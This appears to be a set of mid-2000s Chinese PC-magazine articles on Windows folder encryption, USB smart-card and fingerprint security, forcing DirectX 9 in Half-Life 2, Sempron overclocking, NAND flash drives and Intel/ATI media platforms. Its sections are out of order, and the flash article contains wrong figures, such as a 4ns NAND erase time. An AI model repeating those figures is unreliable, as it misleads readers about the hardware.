- 6. 文件夹加密：在Windows XP/2000里面，如果你用的是NTFS分区，那么你就有一个非常简单的文件夹加密方法，你可以给你的重要文件夹加密，就算管理员都无法浏览哦！首先从“我的电脑”或“资源管理器”中找到需要加密的文件或文件夹，单击鼠标右键选择“属性”命令，然后从弹出的新窗口中点击“常规”标签页中的“高级”按钮，选择“加密内容以便保护数据”复选框，如果是加密文件夹，系统会询问是否需要同时加密子文件夹，一般选择“是”，这样就可以同时加密子文件夹。经过这个操作之后以后所有添加到文件夹中的文件和子文件夹都将被自动加密，加密成功后该文件夹名会显示为绿色，而这些加密文件只能由被加密者打开，即使是拥有最高权限的管理员也无法打开。解除密钥保护时我们仍旧打开上图的对话框，然后清除“加密以便保护数据”复选框，如果是对文件夹解密，系统将询问是否需要同时对文件夹内的所有文件和子文件夹进行解密，你可以根据需要决定。

### 第三重门：软硬件同时加密（重度）

有了软件防卫之后虽然安全性会提高不少，但是对那些处心积虑想偷取资料的人来说，这些简单加密要破解也是很简单的，具体怎么破解这里不方便说，但是只要上去google搜索一下怎么破解加密，恐怕不到十分钟你就找到方法了。因为要提高电脑以及里面资料的安全性，我们还必须动用高级防卫：软硬件加密。所谓软硬件同时加密，就是一些具备加密功能的硬件，加上各自的软件保卫功能，这样一来我们的资料才会真正的安全。

目前最流行的软硬件加密技术有：USB智能卡、指纹识别、安全芯片加密等等，而最普及的莫过于USB智能卡以及指纹识别技术了，下面我们就来看看他们各自是怎么进行加密的吧。

- 1. USB智能卡

市面上的USB智能卡品牌很多，我们就以其中的“优锁”为例，介绍一下简单的USB加密插卡是如何保护笔记本或者台式机上面的数据：

- (1)安装

优锁的安装非常方便，启动电脑，进入Windows桌面之后，我们把优锁接到USB接口上面，很快系统就会提示找到新硬件，然后我们放入优锁附带的驱动程序光盘，一路点击“下一步”即可安装完成。安装完了以后会出现一个“启动精灵”向导，主要就是创建紧急启动盘，其实这也是无关紧要的，值得一提的是优锁还支持创建U盘启动盘，找一个U盘然后把应急盘创建到U盘上面即可。

- (2)Windows登录保护

下面开始介绍如何用优锁保护系统了，首先我们可以设置登录保护功能。在优锁的安装程序里面选择“设置智能卡登录”，选择“我想使用智能卡登录来保护电脑”，点击“完成”退出，这样你每次启动系统的时候都会出现登录界面。这里要求你插入智能卡，只要插进去，这个界面就会一闪而过，然后出现正常的Windows登录界面，否则的话就算你按照提示按“Ctrl+Alt+Del”后输入密码也是不能登录的。

- (3)文件加密/解密

优锁提供了两种文件加密方法，第一种就是把文件拖到桌面的“我的保密文件”文件夹，智能卡拔出后这一文件夹会自动隐藏起来无法找到，而且就算移动到别的系统上面，也是不会因此而改变其属性的，总而言之只要系统之中没有优锁，它就不会出现。另外一种方法是在想要加密的文件或者文件夹上点击鼠标右键，然后在“优锁U-Lock”菜单中选择“加密文件”，成功加密之后，文件图标的右下角会出现一把金色小锁，在智能卡拔出前可以像平常一样对加密文件进行操作，包括打开、删除、改名、移动等，但一旦智能卡拔出后，进行这些操作时系统都会提示错误。而且加密文件右下角金色的小锁也会隐藏起来，安全性非常高。至于解密则是加密的反过程，只要在已经加密的文件上面点击鼠标右键，然后选择“优锁U-Lock”菜单中的“解密文件”即可。

- (4)文件粉碎

就算我们删除了Windows文件并且清空了回收站，别人还是可以利用一些特别的软件来把文件重新找回来，为了防止这样的情况出现，我们可以使用优锁的“文件粉碎”功能。它的原理就是在删除文件的同时，在该文件所占磁盘空间上写0或者1，使恢复软件无法把文件恢复出来。打开优锁的“设置菜单”，然后选择“文件粉碎”选项卡，点击“选择文件”按钮，然后选择相应的文件之后“确定”，你的文件就“蒸发”了，就算恢复软件能够找到这些曾经存在的文件也永远无法恢复。

- (5)系统锁定

很多用户在离开电脑之前，都要将电脑进行手动锁定，回来还要输入密码解除锁定，操作起来不是很方便，这时候我们可以利用优锁的“即拔即锁”功能来帮助我们。首先打开优锁的“设置菜单”，选择“Windows登录选项卡”，里面有一个“插拔智能卡”的下拉菜单，里面有不同选项，我们要选择其中的“锁定计算机”。设定好了以后，我们离开笔记本电脑前面的时候只要把USB智能卡拔出，电脑就会立刻进入锁定状态，而重新插入USB智能卡后又会自动解除，非常方便。

除了上面的简单应用之外，优锁还有“硬件限制”、文件验证功能，高级版本甚至还加密算法、Outlook加密附件发送、密钥生成、智能卡密码变更等等，可以说能够将你的笔记本数据保护到极致。如果你觉得这些还不够高级的话，你可以使用更高级的“指纹识别”技术，目前内置了指纹识别技术的笔记本包括IBM，三星以及富士通等名牌，如果你的台式机也想使用指纹识别的话，可以另外选购指纹识别器。下面我们就来看看IBM的指纹识别功能是如何实现的。

- 2. 指纹识别加密

IBM的笔记本之中，T42是自带了指纹识别功能的其中一款。用户第一次打开配有集成指纹识别器的新IBM计算机时，会看到Windows桌面上出现新窗口，该屏幕提示您开始注册指纹。用户可同意并进行注册，或忽略该闪屏。进而，用户可选“Don’t remind me again”选项。如果用户选择注册，则注册一个或多个指纹的注册过程便开始了，把手指按在指纹识别器上面，然后按照操作系统就可以了。指纹模板以与有效用户ID相关的方式保存在系统中。该注册过程包括保存用户的Windows密码，注册一个或多个指纹，以及配置预引导支持（选择在预引导环境中使用的指纹）等等。当我们完成注册后，系统会询问是否要启用针对预引导环境的这些密码，这与开机密码（POP）和硬盘驱动器（HDD）密码相关。启用功能之后，以后每次开机或者进入系统，都要求对指纹进行识别，不正确的话就无法进入系统了。这样对方除了把你的手指砍下来验证（就算如此他也未必知道是哪个手指……恐怖！）也就别无他法了。

## 3D-Analyze —— 给 Geforce FX 找点面子

3D-Analyze 曾经是拯救 geforce2、geforce4 和 Radeon 7500 等不支持 DirectX9 的老显卡救星。但是 3D-Analyze 不仅仅拯救那些老爷卡，还能帮助 Geforce FX 在 Counter-Strike:Source 和 Half-life 2 等基于 Source 引擎的游戏找回 “面子”。

笔者手上有块支持 DirectX9 的 Geforce FX 5700VE 显卡，但是最近却发现这东西在 Half-life 2（以下简称 HL2）上居然只能以 DirectX8.1 模式运行，真是让人郁闷。为什么会这样呢？原来 Valve 在 HL2 中应用了多个渲染模式，在支持 DirectX9 的显卡上，HL2 将以 DirectX9 代码路径运行，而如果是只支持 DirectX8 的显卡，例如 GeForce 4 Ti 或者 Radeon 8500，HL2 则会自动以 DirectX8 代码路径运行。不过，这里却出了一个例外，就是 GeForce FX 显卡：由于 Geforce FX 显卡在 DirectX9 模式下运行 HL2 比较慢，所以当 HL2 检测到你所使用的是 GeforceFX 显卡，HL2 会默认以 DirectX8.1 路径运行，虽然从技术上来说 GeforceFX 确实是 DirectX9 显卡。

## 打开 GeForce FX 显卡对 DirectX9 渲染的支持

既然这样，那么 GeforceFX 真的不能够在 HL2 中支持 DirectX9 吗？笔者经过搜集资料为大家找到了一条 Geforce FX 显卡在 HL2 中硬上 DirectX9 的办法。

首先找到并打开 CSS 安装目录下的 bin 文件夹，打开 dxsupport.cfg 这个文件，找到与你所使用的显卡相对应参数行（见图1），并按照下面的方式进行修改。这里将以笔者所使用的 Geforce FX5700VE 为例：



```
"387"
{
    "name" "NVidia GeForce FX 5700VE"
    "VendorID" "0x10DE"
    "MinDeviceID"    "0x0344"
    "MaxDeviceID"    "0x0344"
    "m_nDriverVersion_Build"    "6177"
    "DefaultRes"        "1024"
    "MaxDxLevel"        "90"
    "DxLevel" "81"
    "NoUserClipPlanes" "1"
    "ConVar.r_fastzreject" "1"
}
```

把其中的 "DxLevel" 对应 "81" 修改成 "90", 并在整个参数的最后加上 "CentroidHack" "1" 后保存即可。下面是完成后的参数代码：

```
"387"
{
    "name" "NVidia GeForce FX 5700VE"
    "VendorID" "0x10DE"
    "MinDeviceID"    "0x0344"
    "MaxDeviceID"    "0x0344"
    "m_nDriverVersion_Build"    "6177"
    "DefaultRes"        "1024"
    "MaxDxLevel"        "90"
    "DxLevel" "90"
    "NoUserClipPlanes" "1"
    "ConVar.r_fastzreject" "1"
    "CentroidHack" "1"
}
```

完成 dxsupport.cfg 的修改后，大家可以在开始菜单中的“运行”项中输入“regedit”命令，进入注册表编辑。在 HKEY_CURRENT_USER → software → valve → source → cstrike → settings（见图2）中将 DxLevel 中的参数改成 5a（十六进制）或 90（十进制），接着修改 mat_dxlevel，把它的参数也改成 5a（十六进制）或 90（十进制）（见图3）。保存修改后，再进入 HL2 你就会发现 GeForce FX 显卡对 DirectX9 渲染的支持已经打开（见图4）。







## 进一步优化设置

虽然我们可以通过修改 dxsupport.cfg 文件和注册表来开启 DirectX9 渲染，但是在开启了“硬件支持 DirectX9”之后，HL2 游戏运行的帧数也大幅降低了，画面不再流畅。这可怎么办？这里给大家一个更简单的开启 GeforceFX 显卡 DirectX9 渲染，并能大幅提高开启后帧数的办法。

首先，到 http://www.onlinedown.net/soft/39726.htm 下载一个 3D-Analyze 2.36b 汉化版。然后在 HL2 的安装目录下新建一个文本文件，用写字板编辑，并写入下面这行内容：hl2.exe -steam -console -game cstrike -console -dxlevel 90







将这个文本文件另存为一个 BAT 文件（批处理文件）（见图5）。运行 3D-Analyze，点击“select”选择该批处理文件（见图6；写批处理是因为直接调用 HL2.EXE 一般会报错），在 Pixel and Vertex Shader（顶点和像素渲染）下选中 force low precision pixel shader（开启部分低精度像素渲染）即可完成设置（见图7）。点击“run”运行后，你会发现 GeforceFX 显卡使用 DirectX9 渲染的帧数是以前的 1.5~2 倍。以下是笔者在配置为 Pentium4 3GHz、512MB DDR400 内存、GeforceFX 5700VE 的主机上运行 HL2 的 Italy 地图，跑到场景最为复杂的市场水果摊前就地观察帧数的测试结果（见下表）。

| 分辨率 | 1024×768 | 800×600 | 640×480 |
|--------|----------|---------|----------|
| DirectX8 | 25~26帧 | 41~43帧 | 58~59帧 |
| DirectX9 | 10~11帧 | 16~17帧 | 23~24帧 |
| DirectX9+3DA | 17~18帧 | 29~30帧 | 43~45帧 |

从数据上看，尽管降低了像素渲染的精度，但是使用 DirectX9 进行像素渲染还是不如使用 DirectX8 进行像素渲染的速度快。在 HL2 中开启 GeforceFX 的 DirectX9 像素渲染对本来就很不擅长 D3D 的 GeforceFX 来说真的未必十分适合，除非你非常喜欢 DirectX9 的细腻效果，否则笔者还是建议大家使用 DirectX8 模式。但是 3D-Analyze 在稍微降低了 GeforceFX 的 DirectX9 像素渲染精度的情况下让 GeforceFX 在 HL2 中支持 DirectX9 渲染也算是为 GeforceFX 显卡找回一点面子。

（王昉）

## K8闪龙超频完全指导手册

虽然AMD主推64位CPU已经两年，但Athlon 64始终曲高和寡，直到最近Sempron2500+的推出，人们才真正找到进入64位系统的感觉。与当年经典的Barton2500+相似，Sempron2500+也具有强悍的超频性能，绝大部分产品都可以超到300MHz外频，超频幅度超过50%，是一款“体质”很棒的CPU。而价格仅为500元上下，最低时甚至跌到450元，性价比可谓无敌。

现在Sempron2500+超频性能强悍已经是人所共知，不过在BBS上还经常会看到一些网友抱怨自己的CPU连220MHz外频都超不上去。那是不是真的如此呢？其实由于Sempron2500+属于K8架构，超频的方法与传统K7架构的处理器有一些区别，基本上抱怨无法超频的用户都是由于设置不当造成的，本文将以实际超频过程为例，一步步介绍如何把Sempron2500的潜力压榨出来。

在这次超频实战中，我们选择的主板是升技的NF8-V2，这块主板虽然BIOS有一些小bug，但并不影响正常使用，而且超频能力相当强悍。

## 排除超频障碍

除了CPU本身的体质外，影响Sempron2500+超频成功还有两大因素：HT总线和内存。为了找到CPU的超频极限，我们建议首先对HT总线和内存作一些调整。

### 1. HT总线设置

K8系列处理器与芯片组之间是通过HyperTransport总线连接的，HT总线的实际运行频率与两个因素有关：外频及HT总线系数。默认情况下HT总线系数为4×，外频为200MHz，因此HT总线实际频率恰好为800MHz（外频与HT总线系数的乘积）。根据经验HT总线可超频的幅度并不大，为了避免成为超频瓶颈，应当事先把HT总线系数调低，确保超频后HT总线频率仍在相对正常的范围。建议设置值为[3×]或[2.5×]（视主板可提供的选项而定）。

实测表明，HT总线频率对系统性能影响几乎可以忽略不计，而且在找到CPU超频极限后，用户可以根据实际情况重新设置HT总线频率。

NF8-V2的HT总线系数设置项位于BIOS的[Advanced Chipset Features]选项里，名称为[HT Frequency]。由于目前版本BIOS未提供[2.5×]，建议设置成[3×]即可。如图1所示。



### 2. 内存设置

不时会听到Sempron2500+的用户抱怨说：可惜没一条好内存，否则超到xxx外频一定没问题。事实上这种观点并不正确，严格地说，好的内存可以使超频后的性能极大提高，但即使是最普通的DDR400，也完全不会影响超频Sempron2500+（但会影响超频后的性能）。为什么这么说呢？

一切的关键在于“内存异步”，从nForce2开始一些主板就有提供“内存异步”这项功能，通过这项功能，内存可以工作在比处理器外频低得多的频率上，从而不会成为超频的障碍。不过在nForce2主板上，启用内存异步功能后系统性能会骤降，幸好自nForce3芯片组以后的芯片组上，这种情况已经得到很大改善。

NF8-V2默认设置时内存是与处理器外频同步的，假设处理器超到300MHz外频时，内存就相当于运行在DDR600的频率下，试问有几位用户能有这样的极品内存？为了避免内存成为超频障碍，建议设置内存异步运行在133MHz，有必要的话甚至可以设置成100MHz。

必须提醒用户注意的是，当设置内存异步为133MHz的时候，内存运行频率并非真的锁死在133MHz！这项设置的真正含义是：当外频为200MHz时，内存将运行在133MHz频率下。用户可通过以下公式计算出内存的真实运行频率：内存实际频率 = 真实外频 × Max Memclock值 / 200（严格地说，内存频率并不是由处理器实际运行频率决定的，而是外频，因此公式计算的结果会有少许误差，但基本可以忽略不计）。

NF8-V2的内存设置项位于[Advanced Chipset Features]→[DRAM Configuration]里，名为[Max Memclock]。如图2所示，假设设置为133MHz的话，处理器即使超频到320MHz外频，内存的工作频率也只比DDR400的默认工作频率稍高一点，这样内存就不再是影响超频成功的因素。此外，如果有必要的话，内存时序也可以适当设置得保守一些，如CL=3或2.5，以提高稳定性。



- 火速链接：内存时序各项设置手册 http://www.itsogo.net/2005-5-23/20055239450-20.html

## 开始超频

### 第一次尝试：250MHz外频

排除了可能影响超频的因素后，接下来就可以正式开始超频了。进入BIOS的[SoftMenu Setup]界面，把[CPU Operating Speed]选项设置成[User]，然后就可以调整CPU的外频（CPU FSB Clock），首先小超一把，调整至250MHz吧。如图3所示。



小提示：在调整FSB前，不妨先把AGP Clock设置成[67]，据说这样可以在一定程度上提高超频的成功率。

重新启动电脑后，通过CPU-Z这款软件可以看到，当外频超至250MHz时，处理器频率已经提升至1.75GHz，而内存频率为159MHz（DDR318），属于安全范围。如图4所示。



接下来运行Super PI 104万位，作为基本的稳定性测试。如图5所示。此时完成测试所需时间为55.86秒，成绩比较一般。



### 第二次尝试：300MHz外频

超频250MHz成功后，接下来进一步挑战300MHz。如图6所示。必须提醒用户注意的是，并不是每颗CPU都有潜力提升到300MHz外频，如果在300MHz时无法正常启动，可以先清空BIOS恢复默认设置。



在300MHz无法启动的用户也不必灰心，事实上我们还有一招没有使用：提高电压。不同品牌主板可提供的电压选项有所不同，可能需要调节的电压包括：处理器核心电压（CPU Core Voltage）、内存电压（DDR RAM Voltage）、内存参考电压（DDR Ref Voltage）、AGP电压（AGP Voltage）、主板芯片组电压（nForce3 Voltage）及HT总线电压（HyperTransport Voltage）等，如图6所示，用户可以逐项尝试提高少许。注意：电压调整过高将会对你的硬件设备造成永久性损坏，在调整时尽可能将电压调整幅度控制在正负5%这个范围内。而多数主板在用户调整数值过高时，都会以红字显示警告。

经过调整电压后，我们成功地将处理器超频至300MHz，此时处理器频率已经高达2.1GHz，内存频率是191.2MHz（DDR382），如图7所示。

同样进行Super PI 104万位测试，一方面检验稳定性，另一方面可以查看超频带来的性能提高。如图8所示。测试表明，超频至300MHz外频后，Super PI 104万位测试的成绩已经提升至44秒，比250MHz外频时有了近12秒的提高，幅度相当大。

小提示：由于K8处理器内置的内存控制器对内存要求相当严格，此时内存虽然还没达到DDR400的标准频率，但也有可能会出现不稳定，如果遇到这样的情况，不妨尝试适当降低内存时序设置。如图9所示。





通过前面介绍的方法，我们最终把处理器外频超至330MHz，如图10所示。



此时 Super PI 测试成绩已经提升至39.9秒，如图11所示。



不少用户认为超频时最好是以5MHz或10MHz为单位逐步提高FSB，但对于Sempron2500+这样的变态级超频CPU来说，用这样的方法超频可能会把人累死！保存设置后重新启动电脑，然后运行104万位的Super PI做基本的稳定性测试，当然了，时间足够的话还可以执行更多的测试。（关于稳定性测试请参考本文后面的相关内容。）

题外话：事实上笔者的 Sempron2500+ 最高可以超频至350MHz 外频，只是由于笔者所用的内存较为一般，只能通过降低时序和设置成100MHz 异步来确保稳定，性能比330MHz 时不升反降，因此330MHz 外频反而是这套系统的最佳频率。这也印证了笔者在前面所说的，在这个平台上，内存不会影响超频，但会影响超频后的性能。

至此处理器极限频率已经被压榨出来，接下来就可以尝试把前面调低的内存参数逐一提高，测试的方法也大同小异，无非是调整一项参数后就运行测试，逐一找出最佳的设置值。在此需要提醒用户的是，无论是超频还是调整内存参数，都应留一些余地，不要把每一项参数都压榨到极限，以确保系统整体稳定性。

## 稳定性测试

在超频过程中，为了提高效率我们只进行了Super PI 104万位测试，事实上能通过这一测试并不等于CPU 就已经稳定了，在超频后，还需要通过以下几种方式对系统进行磨炼，只有通过以下所有测试，才能认为超频成功。

### 测试一：Super PI 32M

Super PI 32M是这套程序可以提供的最高位数圆周率计算，测试过程通常需要半小时以上，在进行这项运算时，CPU 需要同时缓存和处理大量的计算，稳定性差的系统通常在计算过程中会出错中止。

### 测试二：Prime95

Prime95是著名的烤机程序，它可以让处理器长时间处于超高负荷运算状态，稳定性稍差的处理器都难以通过测试，一般来说，能连续运行一个小时不出错的系统，就基本可以认为是稳定的。不过一些发烧友在测试稳定性时，通常都是连续运行一晚上甚至24小时。

### 测试三：SiSoftware Sandra

SiSoftware Sandra是一套常用的系统信息检测及性能测试软件，它同时也提供了一套烤机模式，用户同样可以通过它来测试系统稳定性。与其他软件不同的是，SiSoftware Sandra在测试完成之后还会给出在测试过程中处理器温度变化等重要资料，可以作为用户改进系统的参考。

如果顺利通过以上全部测试，说明Sempron2500+ 超频已经完全成功，剩下的时间就一起来享受新平台带来的快感吧。最后笔者总结了一些超频Sempron2500+ 时的小经验，希望对读者有用。

- 1. Sempron2500+ 发热量很低，即使在超频的情况下，原装风扇也完全可以应付。
- 2. 笔者所用的主板NF8-V2 的BIOS有bug，在高外频（通常是270MHz 以上），HT 总线系数中的[2X]选项会失效，所幸这个选项对绝大部分超频用户都是用不上的，除非你的处理器能超到380MHz 以上的BT 外频。
- 3. nForce3 主板芯片组发热量相当大，安装散热性能更强劲的芯片组风扇可以提高超频性能，还可以确保长期使用的稳定性。
- 4. 目前尚未有比较完整的Sempron2500+ 超频编号和地雷编号，不过就目前情况看来，普遍趋势是越早期的处理器越好超，建议尽可能选择0527/0528/0529 这三周的产品。处理器的出产日期位于编号的第二行。

（枫）



## 未来趋势，闪存取代硬盘

大家有否发觉，如今的软件系统实在变态，变态得即使是当今最主流的平台，系统的启动时间还是要耗上个三两分钟，每次开机很多用户都会习惯喝上一杯茶打发等待的时间。其实，这种痛苦的等待，主要是出自于当前计算机硬盘的问题，我们俗称的瓶颈。这也是一个长期得不到更好解决的问题，实在让人头痛。

终于，闪存的出现让我们看到了曙光。9月13日消息，韩国三星电子本周一推出了一种新的NAND 闪存芯片，容量为16GB。三星电子存储芯片部门总裁黄昌圭日前宣布：“在不久的将来，NAND 闪存将完全取代其他任何便携存储材料——包括胶片、磁带、硬盘、CD 等。”他还说，NAND 闪存技术的发展，实际上为全部数码便携设备的设计开创了一个不可逆转的潮流（手机、PDA、DAP 等的存储元件以及膝上电脑等的微硬盘、硬盘都有了更好的替代产品）。

闪存取代硬盘？有优势吗？也许，大家已经被长期以来不断进步中的硬盘技术给麻痹了。闪存相对于硬盘驱动器的几个优点：能耗少、抗震性好、读写的速度快，另外，运作时完全静音。

### 小知识

- NOR 和 NAND 闪存的性能：NOR 的读速度比NAND稍快一些。NAND 的写入速度比NOR快很多。NAND 的4ns 擦除速度远比NOR 的5s快。大多数写入操作需要先进行擦除操作。NAND 的擦除单元更小，相应的擦除电路更少。
- NOR 和 NAND 闪存的接口：NOR flash带有SRAM接口，有足够的地址引脚来寻址，可以很容易地存取其内部的每一个字节。
- NOR和NAND闪存的寿命：在NAND闪存中每个块的最大擦写次数是一百万次，而NOR 的擦写次数是十万次。

平时，我们的手机中所使用的存储体多为NOR 型闪存，而且这类闪存通常都不大；而NAND型闪存就是我们常用的U盘、数码相机卡等。

而今天，我们主要探讨的是NAND闪存，也就是之前我们所提及到的可取代硬盘的新技术，更快，更安全的数据载体。

### 闪存有两种

闪存有不同类型，其中主要分为NOR型和NAND型两大类。NOR型与NAND型闪存的区别很大。NOR型闪存就好像是我们通常所说的内存，有独立的地址线和数据线，价格比较贵，容量比较小；而NAND型就像是硬盘，地址线和数据线是共用的I/O 线，类似硬盘的所有信息都通过一条硬盘线传送一般，成本相对NOR 要低一些，而容量大得多。

### NAND型闪存有特点

1. 存储单元：NAND型闪存的基本存储单元是page（内存和NOR型闪存是以bit为基本存储单元），而page（页）就类似于硬盘的扇区，硬盘的一个扇区也为512字节，而NAND型闪存每一页的有效容量是512字节的倍数。有效容量：用于数据存储的部分，而实际上还要加上16字节的校验信息。目前2Gb以下容量的NAND型闪存绝大多数是(512+16)字节的页面容量，2Gb 以上容量的NAND型闪存则将页容量扩大到(2048+64)字节。
2. 擦写：NAND型闪存以块为单位进行擦除操作。闪存的写入操作必须在空白区域进行，如果目标区域已经有数据，必须先擦除后写入，因此擦除操作是闪存的基本操作（一般每个块包含32个512字节的页，容量16KB；而大容量闪存采用2KB 页时，则每个块包含64个页，容量128KB。）。

# 平台化：家庭多媒体娱乐未来趋势

自从电脑普及到千家万户，而且功能变得越来越多，性能越来越强以后，我们的家庭娱乐已经有很大一部分转移到电脑上面了。就拿笔者来说吧，听音乐、玩游戏、看网络电影、VCD/DVD都是在电脑上面进行的，甚至连玩电视游戏机（如PS2）以及看电视，现在都是在电脑上面，前者用一个转接盒即可实现，至于看电视，加一个外置的电视盒就可以了。不过，对于大多数用户而言，像我这样用各种硬件拼凑出众多的功能无疑有一定难度，因此一种新兴的“家庭娱乐平台”的概念便随之产生了。最近，Intel和ATI各自推出了相应的多媒体平台，目的就是为了在日后的“家庭娱乐平台”上面占领先机，下面就让我带大家来领略一下“家庭多媒体娱乐平台”的风采吧。

# 何为家庭娱乐平台？

什么叫做平台呢？所谓平台，其实就是某个事物能够提供一定的空间和支持给其他的事物，从而可以实现一系列综合的功能。这样说也许有点抽象，举个例子，譬如说主板，它就是一个平台。电脑里面的CPU、显卡、硬盘、网卡和内存什么的都要先插在主板这个平台上，然后互相之间发生联系，并且协同工作，从而实现了众多电脑所拥有的神奇功能。在技术上面也有这样的平台，Intel的迅驰平台就是一个最好的例子，它集中了移动处理器、无线网络技术以及一系列节能技术，为使用者提供了全面的移动办公解决方案，让我们不需要自己另外去购买一些硬件，譬如无线网卡什么的，非常方便。

而家庭娱乐平台和迅驰十分类似，它也是将一系列的硬件、软件整合在一起，从而很方便地实现一些功能，而无须我们另外去添加硬件或者软件到电脑之中。也就是说就算你是电脑新手也罢，你只需要知道你的“平台”能够做到些什么，怎么做，而这个平台上面有什么硬件我们根本不需要理会。可以说家庭多媒体娱乐平台是电脑走向“傻瓜化”的最大体现哦！

# Intel Viiv平台

在2005年的“英特尔开发商论坛”上面，Intel正式发布了Viiv家庭娱乐平台，预计2006年即可有相应的产品上市。和“迅驰”平台一样，Viiv平台也是一系列的软、硬件集合体。用Intel自己的话来说，他们希望利用Viiv品牌使消费者能够确认，他们的PC能够方便地处理数字化音像内容、在网络上共享数字化内容、方便地控制PC。而且用户不必担心新系统有多复杂，因为一切的操作都很“傻瓜”。

Viiv的重点除了是“平台”之外，就是指易用性、高性能和连接性了。我们首先来看Viiv平台的组成：

硬件：
1.  双核处理器：包括双核Pentium D处理器。
2.  双核平台：双核Anchor Creek平台，包括945系列芯片组。
3.  超级显示：Intel的Oplus MN301显示增强系统。
4.  无线网络：WiMAX, UWB, Wi-Fi。

软件：
微软Windows Media Center Edition

从上面可以看到，Viiv平台的硬件性能非常强大，而且非常易用，因为有微软的Windows Media Center Edition，一切的操作甚至只需要动动遥控器，连鼠标都不需要了，可以说是“傻瓜”到极致。下面我们就来分析一下Viiv的三大优点：

高性能：除去CPU性能不说，这次整合在Viiv里面的Intel Oplus MN301系统性能就非常强大，它整合了多媒体显示处理器，能够给平板显示器带来更锐利的画面和还原度更高的色彩，而且还支持双通道的HDTV输出，要知道HDTV高清电视可是未来的主流，而Viiv不但能够输出，甚至还能够通过Windows Media Center Edition处理HDTV源，也就是你可以自己制作自己的HDTV节目！

易用性：由于整合了Windows Media Center Edition，Viiv的一切操作都变得非常简单，我们不再需要工具软件，甚至不需要知道PowerDVD、NERO这些东西也能够看DVD，刻录自己的光盘，实现了“傻瓜化”。

连接性：强大的无线网络功能，再加上Viiv丰富的接口资源，以致整个平台可以非常方便地和电视机、录像机、家庭音响，DV等等家庭电器连接起来，并且相互之间资源共享，实现家庭电器的数码化。

除此之外，Viiv平台还有另外两个厉害之处：一个就是自动转换，一种格式的音像内容能够在无须用户干预的情况下被转化成另一种计算机可以实际处理的格式；另一种则是像DVD播放机等家电那样的瞬时开、关机，这一功能采用了Intel Quick Resume Technology技术，也就是说进入Windows系统只需要几秒钟而已。

# ATI AVIVO平台

和Intel的Viiv比起来，ATI的AVIVO虽然也是一个多媒体视频平台，但是它更加注重功能和技术性，易用性方面就不如Viiv这样“平易近人”了。

AVIVO是ATI推出的视频平台，中文的意思就是“高级视频输入输出”。完整的AVIVO平台包括两部分，分别是AVIVO捕捉卡和AVIVO显卡，目前AVIVO捕捉卡只有ATI Theater 550，而AVIVO显卡则包括下一代采用R5系列核心的产品（R520，RV530和RV515等等）。整个AVIVO平台的工作流程就是：“捕捉→编码→解码→处理→输出”（见图），它能够大大加强PC的图像视频处理能力；同时使得工作步骤更为简洁，如果说迅驰可以提供完美的移动性，那么Viiv则可以为我们打造完美的多媒体娱乐电脑。下面我们根据AVIVO的工作流水线介绍一下它的几个特点：



采集：在采集功能方面，ATI已有的Theater 550采集卡就可以满足需求了，它包括了电视接收/调谐功能，在目前众多的采集卡之中，Theater 550的采集质量可以说是最好的。

编码：除了Theater 550本身的MPEG-2硬件压缩编码之外，AVIVO的显示核心也可以提供同样的硬件编码能力，可以肯定的是在ATI下一代显示核心R5xx系列的所有显示卡里都将带有H.264、VC-1、WMV9、WMV9PMC、MPEG-2、MPEG-4、DivX等多种格式的代码转换硬件支持。特别是一些对硬件要求很高的编码，譬如MPEG-2（DVD）转换成为H.264，没有硬件支持的话速度肯定难以想象的慢。

解码：视频压缩的标准现在越来越多，也越来越复杂，当然那是因为画质越来越高了。在AVIVO平台的显示卡中全部都内置了各种解码加速功能，其中包括了最新的H.264以及MPEG-2、MPEG-4、VC-1、WMV9等解码，可以说通过AVIVO我们能够在任何编码状态下获得近乎完美的图像质量，而且CPU的负担非常小。

处理：在AVIVO平台中，ATI对反交错处理（de-interlacing）和视频缩放功能进行了改进，这两项技术对多媒体电脑上面的图像质量起了决定性的作用。

输出：AVIVO平台拥有强大的输出功能，所有的R5XX系列显示卡都将具有两个完整的Dual-link TMDS发射器，可以支持两个DVI输出的高分辨率LCD显示器，这是目前很少有显卡能够达到的。此外ATI Xilleon TV编码器也令显卡的TV输出质量大大加强，更重要的是AVIVO的显卡将提供10bit显示通道，让2D画面呈现完美水准。

# NAND闪存硬盘现有产品

MagicRAM's Flash Disk：这款2.5英寸IDE闪存硬盘，使用闪存作为储存介质。使用植入式IDE控制器控制芯片，能够完全兼容普通的2.5英寸笔记本硬盘接口。在实现零噪音的同时，静态的构架能够有效地防止因为震动而带来的数据丢失。

Adtron A25FB-8GC10：A25FB-8GC10是Adtron小型高容量、高性能的2.5英寸IDE和SATA Flashpak快闪磁盘，采用该公司的ArrayPro技术，提高了性能，并降低了OEM价格，封装密度更高。硬盘的厚度为7.7mm，容量8G。

ArrayPro技术具有平行闪存数组处理特性。2.5英寸产品的容量提高了370%，从一年前的12G提高至现在的56G，性能也提高了570%，可维持每秒80M的读写速率。

# 三星NAND Flash SSD

三星共开发了2.5英寸与1.8英寸这两种尺寸的SSD，以对应同尺寸的笔记本型电脑硬盘，其中2.5英寸SSD使用16颗4 Gbit或8 Gbit NAND闪存芯片达到8 GB (GigaBytes)或16 GB (GigaBytes)的容量；而1.8寸SSD则提供4 GB与8 GB容量型号。值得一提的是，SSD的效能也远超同等体积硬盘最高达150%，其读取速度为每秒52 MB (MegaBytes per second, MBps)，写入速度则为每秒32 MB。同时，耗电量却较现时的笔记本型电脑硬盘低5%，而且，不仅完全防震，还能将工作噪音及发热量降至最低。

# E-Disk 3S320

E-Disk 3S320 一款容量高达155GB的Ultra 320 SCSI固态存储硬盘。能够在零下60摄氏度至95摄氏度之间正常运行。平均数据存取时间42微秒，最高读写速度达到44MB/s，瞬间峰值可达到320MB/s。E-Disk 3S320支持Linux、Solaris、Windows、MacOS、LynxOS、AIX、FreeBSD、HP/UX、IRIX、NetBSD、OS/2、QNX、VxWorks、Unixware、Solaris X86以及Tru64操作系统。目前，E-Disk 3S320为军用级产品，专为科研任务以及飞行应用设计，对于民用来说，多少会显得太高级。

# 闪存能够取代硬盘吗？

昨天：三星已连续推出6代NAND闪存器：256Mb(1999年)、512Mb(2000年)、1Gb(2001年)、2Gb(2002年)、4Gb(2003年)、8Gb(2004年)和16Gb(2005年)，科技强大的力量冲破了“摩尔定律”的局限。

